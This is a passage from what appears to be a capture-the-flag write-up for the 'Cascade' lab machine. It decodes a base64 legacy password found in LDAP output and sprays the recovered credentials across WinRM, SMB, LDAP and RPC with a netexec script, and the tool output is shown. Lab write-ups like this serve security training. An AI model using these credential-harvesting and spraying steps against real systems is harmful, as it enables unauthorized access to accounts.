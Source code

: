 by inspecting the output, i noticed that user `r.thompson` has this field and value:
```shell
cascadeLegacyPwd: clk0bjVldmE=
```
which in base64 is:
```shell
echo 'clk0bjVldmE=' | base64 -d
```
so now it seems we have a password for user `r.thompson`
```shell
rY4n5eva
```

For future reference, keep in mind to check for fields that contain `pwd` as substring in their name , like the one above (cascadeLegacyPwd) inside the output of `ldapsearch`.

The gathered creds here was:
```shell
r.thompson
rY4n5eva
```

-------
# Foothold

#### Checking access to services

lets now try to check to which service's we can connect with those creds, using my automated nxc script
https://github.com/ch3ckkm8/auto_netexec
```shell
./auto_netexec_bulk_creds_checker.sh cascade.htb 'r.thompson' 'rY4n5eva'
```

```shell
[*] Checking if winrm port 5985 is open on cascade.htb...
[+] Port 5985 open — checking winrm with netexec
WINRM       10.10.10.182    5985   CASC-DC1         [*] Windows 7 / Server 2008 R2 Build 7601 (name:CASC-DC1) (domain:cascade.local)
WINRM       10.10.10.182    5985   CASC-DC1         [-] cascade.local\r.thompson:rY4n5eva

[*] Checking if smb port 445 is open on cascade.htb...
[+] Port 445 open — checking smb with netexec
SMB         10.10.10.182    445    CASC-DC1         [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
SMB         10.10.10.182    445    CASC-DC1         [+] cascade.local\r.thompson:rY4n5eva 

[*] Checking if ldap port 389 is open on cascade.htb...
[+] Port 389 open — checking ldap with netexec
SMB         10.10.10.182    445    CASC-DC1         [*] Windows 7 / Server 2008 R2 Build 7601 x64 (name:CASC-DC1) (domain:cascade.local) (signing:True) (SMBv1:False)
LDAP        10.10.10.182    389    CASC-DC1         [+] cascade.local\r.thompson:rY4n5eva 

[*] Checking if rdp port 3389 is open on cascade.htb...
[-] Skipping rdp — port 3389 is closed

[*] Checking if wmi port 135 is open on cascade.htb...
[+] Port 135 open — checking wmi with netexec
RPC         10.10.10.182    135    CASC-DC1         [*] Windows 7 / Server 2008 R2 Build 7601 (name:CASC-DC1) (domain:cascade.local)
RPC         10.10.10.182    135    CASC-DC1         [+] cascade.local\r.thompson:rY4n5eva 

[*] Checking if nfs port 2049 is open on cascade.htb...
[-] Skipping nfs — port 2049 is closed

[*] Checking if ssh port 22 is open on cascade.htb...
```